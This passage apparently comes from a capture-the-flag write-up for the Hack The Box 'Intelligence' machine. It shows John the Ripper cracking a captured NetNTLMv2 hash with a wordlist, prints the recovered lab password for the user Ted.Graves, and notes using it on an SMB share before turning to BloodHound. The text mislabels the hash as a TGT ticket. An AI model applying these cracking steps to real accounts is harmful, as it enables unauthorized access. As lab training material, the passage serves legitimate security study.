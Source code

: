 ![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%205.png)

Now I got the TGT ticket so lets crack it with john or hashcat what ever you like I like both so I will be using john here →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=netntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:09 DONE (2024-01-15 20:35) 0.1092g/s 1181Kp/s 1181Kc/s 1181KC/s Mrz.deltasigma..Mr BOB
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
{: .nolineno}

```bash
intelligence\Ted.Graves : Mr.Teddy
```
{: .nolineno}

Now you now the password so lets use this password to access some service →

![Untitled](Intelligence%205c9413713b15427eaed2a111cea99e6f/Untitled%206.png)

Only new thing was to have access over IPC$ default share so lets move on to bloodhound now →
